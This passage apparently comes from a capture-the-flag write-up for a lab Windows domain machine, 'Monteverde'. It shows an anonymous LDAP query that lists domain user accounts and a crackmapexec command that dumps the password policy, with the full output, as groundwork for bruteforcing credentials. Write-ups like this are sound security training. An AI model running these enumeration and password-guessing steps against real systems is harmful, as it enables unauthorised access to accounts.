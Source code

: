 The box is **monteverde.megabank.local** and its domain name is **megabank.local**.     

Let's try to find informations about users.

~~~
root@kali:~# ldapsearch -h 10.10.10.172 -x -b "DC=MEGABANK,DC=LOCAL" '(objectClass=User)' sAMAccountName | grep sAMAccountName

# requesting: sAMAccountName
sAMAccountName: Guest
sAMAccountName: MONTEVERDE$
sAMAccountName: AAD_987d7f2f57d2
sAMAccountName: mhope
sAMAccountName: SABatchJobs
sAMAccountName: svc-ata
sAMAccountName: svc-bexec
sAMAccountName: svc-netapp
sAMAccountName: dgalanos
sAMAccountName: roleary
sAMAccountName: smorgan
~~~

* * *
## 3- Exploitation
### 3.1- Bruteforcing Credentials

We can try to bruteforce credentials using a list of users and `crackmapexec` or `hydra`.         
However, this is risky as our machine might get banned if the target has an Account Lockout Threshold set. We should first check the password policy:

~~~
root@kali:~# crackmapexec smb 10.10.10.172 --pass-pol

SMB         10.10.10.172    445    MONTEVERDE       [*] Windows 10.0 Build 17763 (name:MONTEVERDE) (domain:MEGABANK.LOCAL) (signing:True) (SMBv1:False)
SMB         10.10.10.172    445    MONTEVERDE       [+] Dumping password info for domain: MEGABANK
SMB         10.10.10.172    445    MONTEVERDE       Minimum password length: 7
SMB         10.10.10.172    445    MONTEVERDE       Password history length: 24
SMB         10.10.10.172    445    MONTEVERDE       Maximum password age:
SMB         10.10.10.172    445    MONTEVERDE       
SMB         10.10.10.172    445    MONTEVERDE       Password Complexity Flags: 000000
SMB         10.10.10.172    445    MONTEVERDE       	Domain Refuse Password Change: 0
SMB         10.10.10.172    445    MONTEVERDE       	Domain Password Store Cleartext: 0
SMB         10.10.10.172    445    MONTEVERDE       	Domain Password Lockout Admins: 0
SMB         10.10.10.172    445    MONTEVERDE       	Domain Password No Clear Change: 0
SMB         10.10.10.172    445    MONTEVERDE       	Domain Password No Anon Change: 0
SMB         10.10.10.172    445    MONTEVERDE       	Domain Password Complex: 0
SMB         10.10.10.172    445    MONTEVERDE       
SMB         10.10.10.172    445    MONTEVERDE       Minimum password age:
SMB         10.10.10.172    445    MONTEVERDE       Reset Account Lockout Counter: 30 minutes
SMB         10.10.10.172    445    MONTEVERDE       Locked Account Duration: 30 minutes
SMB         10.10.10.172    445    MONTEVERDE       Account Lockout Threshold: None
SMB         10.10.10.172    445    MONTEVERDE       Forced Log off Time: Not Set
~~~
